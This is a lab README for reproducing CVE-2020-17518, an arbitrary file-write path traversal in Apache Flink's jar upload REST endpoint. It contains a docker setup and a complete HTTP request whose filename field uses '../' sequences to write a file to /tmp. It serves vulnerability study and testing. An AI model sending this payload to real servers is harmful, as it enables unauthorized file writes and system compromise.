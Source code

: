 # Apache Flink Upload Path Traversal (CVE-2020-17518)

Apache Flink is an open source stream processing framework with powerful stream- and batch-processing capabilities.

Apache Flink 1.5.1 introduced a REST handler that allows you to write an uploaded file to an arbitrary location on the local file system, through a maliciously modified HTTP HEADER.

References:

- https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4
- https://nvd.nist.gov/vuln/detail/CVE-2020-17518

## Environment Setup

Execute following commands to start a Apache Flink jobmanager 1.11.2:

```
docker compose up -d
```

After the Apache Flink is started, visit `http://your-ip:8081` to view the homepage.

## Exploit

Use following request to upload a file to `/tmp/success`:

```
POST /jars/upload HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/success"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--

```

![](1.png)